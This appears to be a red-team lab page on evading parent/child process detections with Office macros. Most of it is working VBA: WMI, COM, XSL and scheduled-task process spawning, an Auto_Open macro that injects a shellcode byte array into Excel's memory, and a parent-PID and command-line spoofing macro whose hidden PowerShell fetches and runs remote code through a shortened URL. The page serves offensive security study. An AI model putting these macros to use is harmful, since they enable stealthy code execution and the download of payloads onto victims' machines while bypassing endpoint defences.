



# Bypassing Parent Child / Ancestry Detections

Defenders often will look engineer detections based on parent/child process relationships - i.e Excel spawns powershel - suspicious.

This lab is mostly based on the techniques discussed on [https://www.countercept.com/blog/dechaining-macros-and-evading-edr/](https://www.countercept.com/blog/dechaining-macros-and-evading-edr/)

Below are some techniques showing how those type of detections could be bypassed. 

## Spawning via WmiPrvse.exe using wmi


```javascript
Set objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2")
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
Set objConfig = objStartup.SpawnInstance_
Set objProcess = GetObject("winmgmts:root\cimv2:Win32_Process")
errReturn = objProcess.Create("calc", Null, objConfig, intProcessID)
```




## Spawning via ShellCOM


```csharp
Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")
obj.Document.Application.ShellExecute "calc",Null,"C:\\Windows\\System32",Null,0
```


## Spawning via svchost.exe using XMLDOM



```csharp
Set xml = CreateObject("Microsoft.XMLDOM")
xml.async = False
Set xsl = xml
xsl.load("file://|http://bad.xsl")
xml.transformNode xsl
```



```markup
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```




## Spawning via svchost.exe using Scheduled Task


```csharp
Set service = CreateObject("Schedule.Service")
Call service.Connect
Dim td: Set td = service.NewTask(0)
td.RegistrationInfo.Author = "Kaspersky Corporation"
td.settings.StartWhenAvailable = True
td.settings.Hidden = False
Dim triggers: Set triggers = td.triggers
Dim trigger: Set trigger = triggers.Create(1)
Dim startTime: ts = DateAdd("s", 30, Now)
startTime = Year(ts) & "-" & Right(Month(ts), 2) & "-" & Right(Day(ts), 2) & "T" & Right(Hour(ts), 2) & ":" & Right(Minute(ts), 2) & ":" & Right(Second(ts), 2)
trigger.StartBoundary = startTime
trigger.ID = "TimeTriggerId"
Dim Action: Set Action = td.Actions.Create(0)
Action.Path = "C:\Windows\System32\cmd.exe"
'Action.Arguments = "/c whoami"
Call service.GetFolder("\").RegisterTaskDefinition("AVUpdateTask", td, 6, , , 3)
```



## Shellcode Injection to Excel.exe Memory Using Windows APIs

```csharp
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As LongPtr, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As LongPtr, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As LongPtr
Private Declare Function CreateThread Lib "kernel32" (ByVal Zopqv As Long, ByVal Xhxi As Long, ByVal Mqnynfb As Long, Tfe As Long, ByVal Zukax As Long, Rlere As Long) As Long
Private Declare Function VirtualAlloc Lib "kernel32" (ByVal Xwl As Long, ByVal Sstjltuas As Long, ByVal Bnyltjw As Long, ByVal Rso As Long) As Long
Private Declare Function RtlMoveMemory Lib "kernel32" (ByVal Dkhnszol As Long, ByRef Wwgtgy As Any, ByVal Hrkmuos As Long) As Long

Sub Auto_Open()
        Dim Wyzayxya As Long, Hyeyhafxp As Variant, Lezhtplzi As Long, Zolde As Long
#If Vba7 Then
        Dim  Xlbufvetp As LongPtr
#Else
        Dim  Xlbufvetp As Long
#EndIf
        Hyeyhafxp = Array(232,137,0,0,0,96,137,229,49,210,100,139,82,48,139,82,12,139,82,20, _
139,114,40,15,183,74,38,49,255,49,192,172,60,97,124,2,44,32,193,207, _
13,1,199,226,240,82,87,139,82,16,139,66,60,1,208,139,64,120,133,192, _
116,74,1,208,80,139,72,24,139,88,32,1,211,227,60,73,139,52,139,1, _
214,49,255,49,192,172,193,207,13,1,199,56,224,117,244,3,125,248,59,125, _
36,117,226,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4, _
139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18, _
235,134,93,106,1,141,133,185,0,0,0,80,104,49,139,111,135,255,213,187, _
224,29,42,10,104,166,149,189,157,255,213,60,6,124,10,128,251,224,117,5, _
187,71,19,114,111,106,0,83,255,213,99,97,108,99,0)
        Xlbufvetp = VirtualAlloc(0, UBound(Hyeyhafxp), &H1000, &H40)
        For Zolde = LBound(Hyeyhafxp) To UBound(Hyeyhafxp)
                Wyzayxya = Hyeyhafxp(Zolde)
                Lezhtplzi = RtlMoveMemory(Xlbufvetp + Zolde, Wyzayxya, 1)
        Next Zolde
        Lezhtplzi = CreateThread(0, 0, Xlbufvetp, 0, 0, 0)
End Sub
```





## Parent Process ID Spoofing

With this technique it is possible to specify the PID under which our process will be launched as well as process commandline arguments can be spoofed. Note that this is the same technique Cobalt Strike uses under the hood in its `argue` module:

```csharp
' code from https://blog.christophetd.fr/building-an-office-macro-to-spoof-process-parent-and-command-line/
' Windows API constants

Const EXTENDED_STARTUPINFO_PRESENT = &H80000
Const HEAP_ZERO_MEMORY = &H8&
Const SW_HIDE = &H0&
Const PROCESS_ALL_ACCESS = &H1F0FFF
Const PROC_THREAD_ATTRIBUTE_PARENT_PROCESS = &H20000
Const TH32CS_SNAPPROCESS = &H2&
Const MAX_PATH = 260


'''''''''''''''''''''''''''''''''''''''''''''''''''
''''''''''''''' Data types ''''''''''''''''''''''''
'''''''''''''''''''''''''''''''''''''''''''''''''''
 


Private Type PROCESS_INFORMATION
    hProcess As LongPtr
    hThread As LongPtr
    dwProcessId As Long
    dwThreadId As Long
End Type


Private Type STARTUP_INFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Byte
    hStdInput As LongPtr
    hStdOutput As LongPtr
    hStdError As LongPtr
End Type
 
Private Type STARTUPINFOEX
    STARTUPINFO As STARTUP_INFO
    lpAttributelist As LongPtr
End Type

' from https://codes-sources.commentcamarche.net/source/42365-affinite-des-processus-et-des-threads
Private Type PROCESS_BASIC_INFORMATION
    ExitStatus      As Long
    PEBBaseAddress  As Long
    AffinityMask    As Long
    BasePriority    As Long
    UniqueProcessId As Long
    ParentProcessId As Long
End Type


Private Declare Function NtQueryInformationProcess Lib "ntdll.dll" ( _
   ByVal processHandle As LongPtr, _
   ByVal processInformationClass As Long, _
   ByRef processInformation As PROCESS_BASIC_INFORMATION, _
   ByVal processInformationLength As Long, _
   ByRef returnLength As Long _
) As Integer


' From https://foren.activevb.de/archiv/vb-net/thread-76040/beitrag-76164/ReadProcessMemory-fuer-GetComma/
Private Type PEB
    Reserved1(1) As Byte
    BeingDebugged As Byte
    Reserved2 As Byte
    Reserved3(1) As Long
    Ldr As Long
    ProcessParameters As Long
    Reserved4(103) As Byte
    Reserved5(51) As Long
    PostProcessInitRoutine As Long
    Reserved6(127) As Byte
    Reserved7 As Long
    SessionId As Long
End Type


Private Type UNICODE_STRING
    Length As Integer
    MaximumLength As Integer
    Buffer As Long
    ' to change ^ to Long
End Type

Private Type RTL_USER_PROCESS_PARAMETERS
    Reserved1(15) As Byte
    Reserved2(9) As Long
    ImagePathName As UNICODE_STRING
    CommandLine As UNICODE_STRING
End Type


Private Type PROCESSENTRY32
    dwSize As Long
    cntUsage As Long
    th32ProcessID As Long
    th32DefaultHeapID As Long
    th32ModuleID As Long
    cntThreads As Long
    th32ParentProcessID As Long
    pcPriClassBase As Long
    dwFlags As Long
    szexeFile As String * MAX_PATH
End Type


'''''''''''''''''''''''''''''''''''''''''''''''''''''
''''''''''''' kernel32 & ntdll bindings '''''''''''''
'''''''''''''''''''''''''''''''''''''''''''''''''''''

Private Declare PtrSafe Function CreateProcess Lib "kernel32.dll" Alias "CreateProcessA" ( _
    ByVal lpApplicationName As String, _
    ByVal lpCommandLine As String, _
    lpProcessAttributes As Long, _
    lpThreadAttributes As Long, _
    ByVal bInheritHandles As Long, _
    ByVal dwCreationFlags As Long, _
    lpEnvironment As Any, _
    ByVal lpCurrentDriectory As String, _
    ByVal lpStartupInfo As LongPtr, _
    lpProcessInformation As PROCESS_INFORMATION _
) As Long


Private Declare PtrSafe Function OpenProcess Lib "kernel32.dll" ( _
    ByVal dwAccess As Long, _
    ByVal fInherit As Integer, _
    ByVal hObject As Long _
) As Long
 

Private Declare PtrSafe Function HeapAlloc Lib "kernel32.dll" ( _
    ByVal hHeap As LongPtr, _
    ByVal dwFlags As Long, _
    ByVal dwBytes As Long _
) As LongPtr


Private Declare PtrSafe Function GetProcessHeap Lib "kernel32.dll" () As LongPtr


Private Declare PtrSafe Function InitializeProcThreadAttributeList Lib "kernel32.dll" ( _
    ByVal lpAttributelist As LongPtr, _
    ByVal dwAttributeCount As Integer, _
    ByVal dwFlags As Integer, _
    ByRef lpSize As Integer _
) As Boolean


Private Declare PtrSafe Function UpdateProcThreadAttribute Lib "kernel32.dll" ( _
    ByVal lpAttributelist As LongPtr, _
    ByVal dwFlags As Integer, _
    ByVal lpAttribute As Long, _
    ByRef lpValue As Long, _
    ByVal cbSize As Integer, _
    ByRef lpPreviousValue As Integer, _
    ByRef lpReturnSize As Integer _
) As Boolean

Private Declare PtrSafe Function CreateToolhelp32Snapshot Lib "kernel32.dll" ( _
    ByVal dwFlags As Integer, _
    ByVal th32ProcessID As Integer _
) As Long
 
Private Declare PtrSafe Function Process32First Lib "kernel32.dll" ( _
    ByVal hSnapshot As LongPtr, _
    ByRef lppe As PROCESSENTRY32 _
) As Boolean
 
Private Declare PtrSafe Function Process32Next Lib "kernel32.dll" ( _
    ByVal hSnapshot As LongPtr, _
    ByRef lppe As PROCESSENTRY32 _
) As Boolean


Private Declare Function ReadProcessMemory Lib "kernel32.dll" ( _
    ByVal hProcess As LongPtr, _
    ByVal lpBaseAddress As LongPtr, _
    ByVal lpBuffer As LongPtr, _
    ByVal nSize As Long, _
    ByRef lpNumberOfBytesRead As Long _
) As Boolean

Private Declare Function WriteProcessMemory Lib "kernel32.dll" ( _
    ByVal hProcess As LongPtr, _
    ByVal lpBaseAddress As Long, _
    ByVal lpBuffer As Any, _
    ByVal nSize As Long, _
    ByRef lpNumberOfBytesWritten As Long _
) As Boolean


Private Declare Function ResumeThread Lib "kernel32.dll" (ByVal hThread As LongPtr) As Long


'''''''''''''''''''''''''''''''''''''''''''''''
'''''''''''''' Utility functions ''''''''''''''
'''''''''''''''''''''''''''''''''''''''''''''''

' Finds the PID of a process given its name
Public Function getPidByName(ByVal name As String) As Integer
    Dim pEntry As PROCESSENTRY32
    Dim continueSearching As Boolean
    pEntry.dwSize = Len(pEntry)
    Dim snapshot As LongPtr

    snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, ByVal 0&)
 
    continueSearching = Process32First(snapshot, pEntry)
 
    Do
        If Left$(pEntry.szexeFile, Len(name)) = LCase$(name) Then
            getPidByName = pEntry.th32ProcessID
            continueSearching = False
        Else
            continueSearching = Process32Next(snapshot, pEntry)
        End If
    Loop While continueSearching
End Function

Public Function convertStr(ByVal str As String) As Byte()
    Dim i, j As Integer
    Dim result(400) As Byte
    j = 0
    For i = 1 To Len(str):
        result(j) = Asc(Mid(str, i, 1))
        result(j + 1) = &H0
        j = j + 2
    Next
    
    convertStr = result
    
End Function

Sub AutoOpen()
    Dim pi As PROCESS_INFORMATION
    Dim si As STARTUPINFOEX
    Dim nullStr As String
    Dim pid, result As Integer
    Dim threadAttribSize As Integer
    Dim parentHandle As LongPtr
    Dim originalCli As String
    
    originalCli = "powershell.exe -NoExit -c Get-Service -DisplayName '*network*' | Where-Object { $_.Status -eq 'Running' } | Sort-Object DisplayName"
    
    ' Get a handle on the process to be used as a parent
    pid = getPidByName("explorer.exe")
    parentHandle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)

    ' Initialize process attribute list
    result = InitializeProcThreadAttributeList(ByVal 0&, 1, 0, threadAttribSize)
    si.lpAttributelist = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, threadAttribSize)
    result = InitializeProcThreadAttributeList(si.lpAttributelist, 1, 0, threadAttribSize)

    ' Set the parent to be our previous handle
    result = UpdateProcThreadAttribute(si.lpAttributelist, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, parentHandle, Len(parentHandle), ByVal 0&, ByVal 0&)

    ' Set the size of cb (see https://docs.microsoft.com/en-us/windows/desktop/api/winbase/ns-winbase-_startupinfoexa#remarks)
    si.STARTUPINFO.cb = LenB(si)
    
    ' Hide new process window
    si.STARTUPINFO.dwFlags = 1
    si.STARTUPINFO.wShowWindow = SW_HIDE

    result = CreateProcess( _
        nullStr, _
        originalCli, _
        ByVal 0&, _
        ByVal 0&, _
        1&, _
        &H80014, _
        ByVal 0&, _
        nullStr, _
        VarPtr(si), _
        pi _
    )
    
    ' Spoofing of cli arguments
    Dim size As Long
    Dim PEB As PEB
    Dim pbi As PROCESS_BASIC_INFORMATION
    Dim newProcessHandle As LongPtr
    Dim success As Boolean
    Dim parameters As RTL_USER_PROCESS_PARAMETERS
    Dim cmdStr As String
    Dim cmd() As Byte
    
    newProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, False, pi.dwProcessId)
    result = NtQueryInformationProcess(newProcessHandle, 0, pbi, Len(pbi), size)
    success = ReadProcessMemory(newProcessHandle, pbi.PEBBaseAddress, VarPtr(PEB), Len(PEB), size)
    ' peb.ProcessParameters now contains the address to the parameters - read them
    success = ReadProcessMemory(newProcessHandle, PEB.ProcessParameters, VarPtr(parameters), Len(parameters), size)
    
    cmdStr = "powershell.exe -noexit -ep bypass -c IEX((New-Object System.Net.WebClient).DownloadString('http://bit.ly/2TxpA4h')) # "
    cmd = convertStr(cmdStr)
    success = WriteProcessMemory(newProcessHandle, parameters.CommandLine.Buffer, StrPtr(cmd), 2 * Len(cmdStr), size)
    ResumeThread (pi.hThread) 
End Sub
```


## References












